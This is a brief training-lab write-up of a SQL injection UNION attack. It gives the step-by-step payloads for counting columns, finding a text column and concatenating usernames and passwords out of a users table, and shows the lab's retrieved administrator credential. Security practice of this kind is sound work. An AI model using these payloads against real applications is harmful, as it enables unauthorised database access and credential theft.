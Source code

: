 # Lab: SQL injection UNION attack, retrieving multiple values in a single column

First need to figure out how many columns there are. This returns a successful response: `'+UNION+SELECT+NULL,NULL+FROM+users--`

Next, need to find out which columns hold text:

`'+UNION+SELECT+'a',NULL+FROM+users--` (error)

`'+UNION+SELECT+NULL,'a'+FROM+users--` (success)


Use the second column to display data:
`'+UNION+SELECT+NULL,username||'~'||password+FROM+users--`

This returns `administrator~lfq5meezzl55odzkmat2`, along with some other credentials pairs.
